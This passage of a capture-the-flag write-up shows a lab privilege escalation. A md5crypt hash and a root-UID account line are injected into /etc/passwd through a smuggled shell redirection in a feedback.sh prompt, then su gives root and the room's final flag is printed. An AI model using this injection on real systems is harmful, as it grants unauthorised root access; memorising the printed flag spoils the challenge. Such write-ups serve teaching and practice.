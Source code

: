1. I create a password shortcut in the terminal.

```terminal
$ mkpasswd -m md5crypt -s
Password: 123
$1$fR9LxIOk$fQJuNrAKKyknY1PUNWs5l0                                   
```

2. I format the user information in the style of **/etc/passwd** so that it looks like this:

```
hacker:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:hacker:/root:/bin/bash
```

3. I run the **feedback.sh** script and enter the following in the prompt:

```
'hacker:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:hacker:/root:/bin/bash' >> /etc/passwd
```

4. I check if the creation of my new user was successful by reading **/etc/passwd**. As shown, I have created a new user with root privileges.

```
hacker:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:hacker:/root:/bin/bash
```

I log into the new user and search through the files to retrieve the final root flag.

```terminal
> su hacker
> find / -type f -name "root.txt" 2>/dev/null
```
I retrieve the final flag.

```console
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{Y0U_4r3_7h3_NUm83r_1_H3r0}

```

**Flag : THM{Y0U_4r3_7h3_NUm83r_1_H3r0}**